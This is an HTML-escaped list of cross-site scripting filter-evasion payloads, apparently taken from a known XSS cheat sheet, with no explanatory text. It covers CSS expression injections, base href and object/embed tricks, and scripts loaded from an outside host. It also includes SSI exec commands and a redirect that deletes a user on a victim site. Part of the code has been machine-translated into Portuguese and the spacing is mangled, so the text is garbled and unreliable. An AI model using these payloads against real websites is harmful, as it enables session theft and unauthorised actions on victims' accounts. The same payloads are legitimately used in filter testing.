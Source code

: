 & lt; ESTILO & gt; @im \ port '\ ja \ vasc \ ript & # 58; alert (\ "XSS \")'; & lt; / ESTILO & gt;
& lt; IMG STYLE = \ "xss & # 58; expr / * XSS * / ession (alert ('XSS')) \" & gt;
& lt; XSS STYLE = \ "xss & # 58; expressão (alerta ('XSS')) \" & gt;
exp / * & lt; A STYLE = 'no \ xss & # 58; noxss (\ "* // * \");
xss & # 58; ex & # x2F; * XSS * // * / * / pression (alert (\ "XSS \")) '& gt;
& lt; TIPO DE ESTILO = \ "text / javascript \" & gt; alert ('XSS'); & lt; / ESTILO & gt;
& lt; ESTILO & gt; & # 46; XSS {imagem de fundo & # 58; url (\ "javascript & # 058; alert ('XSS') \");} & lt; / ESTILO & gt; & lt; A CLASS = XSS & gt; & lt; / A & gt;
& lt; STYLE type = \ "text / css \" & gt; BODY {background & # 58; url (\ "javascript & # 058; alert ('XSS') \")} & lt; / STYLE & gt;
& lt;! - & # 91; if gte IE 4 & # 93; & gt;
& lt; SCRIPT & gt; alert ('XSS'); & lt; / SCRIPT & gt;
& lt;! & # 91; endif & # 93; - & gt;
& lt; BASE HREF = \ "javascript & # 058; alert ('XSS'); // \" & gt;
& lt; TIPO DE OBJETO = \ "text / x-scriptlet \" DATA = \ "http & # 58; // ha & # 46; ckers & # 46; org / scriptlet & # 46; html \" & gt; & lt; / OBJETO & gt;
& lt; OBJECT classid = clsid & # 58; ae24fdae-03c6-11d1-8b76-0080c744f389 & gt; & lt; param name = url value = javascript & # 058; alert ('XSS') & gt; & lt; / OBJECT & gt;
& lt; EMBED SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; swf \" AllowScriptAccess = \ "sempre \" & gt; & lt; / EMBED & gt;
& Lt; EMBUTIDO SRC = \ "dados & # 58; imagem / SVG + XML; base64, PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI + YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg == \" type = \ "imagem / SVG + xml \" AllowScriptAccess = \ "sempre \" & gt ; & lt; / EMBED & gt;
a = \ "obter \";
b = \ "URL (\\" \ ";
c = \ "javascript & # 058; \";
d = \ "alerta ('XSS'); \\") \ ";
eval (a + b + c + d);
& lt; HTML xmlns & # 58; xss & gt; & lt;? import namespace = \ "xss \" implementação = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; htc \" & gt; & lt ; xss & # 58; xss & gt; XSS & lt; / xss & # 58; xss & gt; & lt; / HTML & gt;
& lt; XML ID = I & gt; & lt; X & gt; & lt; C & gt; & lt;! & # 91; CDATA & # 91; & lt; IMG SRC = \ "javas & # 93; & # 93; & gt; & lt;! & # 91; CDATA & # 91; cript & # 58; alert ('XSS'); \ "& gt; & # 93; & # 93; & gt;
& lt; / C & gt; & lt; / X & gt; & lt; / xml & gt; & lt; DATASRC SPAN = # I DATAFLD = C DATAFORMATAS = HTML & gt; & lt; / SPAN & gt;
& lt; XML ID = \ "xss \" & gt; & lt; I & gt; & lt; B & gt; & lt; IMG SRC = \ "javas & lt;! - - & gt; cript & # 58; alert ('XSS') \" & gt; & lt; / B & gt; & lt; / I & gt; & lt; / XML & gt;
& lt; SPAN DATASRC = \ "# xss \" DATAFLD = \ "B \" DATAFORMATAS = \ "HTML \" & gt; & lt; / SPAN & gt;
& lt; XML SRC = \ "xsstest & # 46; xml \" ID = I & gt; & lt; / XML & gt;
& lt; SPAN DATASRC = # I DATAFLD = C DATAFORMATAS = HTML & gt; & lt; / SPAN & gt;
& lt; HTML & gt; & lt; BODY & gt;
& lt;? xml & # 58; prefixo de namespace = \ "t \" ns = \ "urn & # 58; schemas-microsoft-com & # 58; time \" & gt;
& lt;? import namespace = \ "t \" implementação = \ "# default # time2 \" & gt;
& lt; t & # 58; definir attributeName = \ "innerHTML \" para = \ "XSS & lt; SCRIPT DEFER & gt; alert (& quot; XSS & quot;) & lt; / SCRIPT & gt; \" & gt;
& lt; / BODY & gt; & lt; / HTML & gt;
& lt; SCRIPT SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; jpg \" & gt; & lt; / SCRIPT & gt;
& lt;! - # exec cmd = \ "/ bin / echo '& lt; SCR' \" - & gt; & lt;! - # exec cmd = \ "/ bin / echo 'IPT SRC = http & # 58; / / ha & # 46; ckers & # 46; org / xss & # 46; js & gt; & lt; / SCRIPT & gt; '\ "- & gt;
& lt ;? echo ('& lt; SCR)';
echo ('IPT & gt; alert (\ "XSS \") & lt; / SCRIPT & gt;'); ? & gt;
& lt; IMG SRC = \ "http & # 58; // www & # 46; thesiteyouareon & # 46; com / somecommand & # 46; php? somevariables = código malicioso \" & gt;
Redirecionar 302 / a & # 46; jpg http & # 58; // Victimsite & # 46; com / admin & # 46; asp & deleteuser
& lt; META HTTP-EQUIV = \ "Set-Cookie \" Content = \ "USERID = & lt; SCRIPT & gt; alert ('XSS') & lt; / SCRIPT & gt; \" & gt;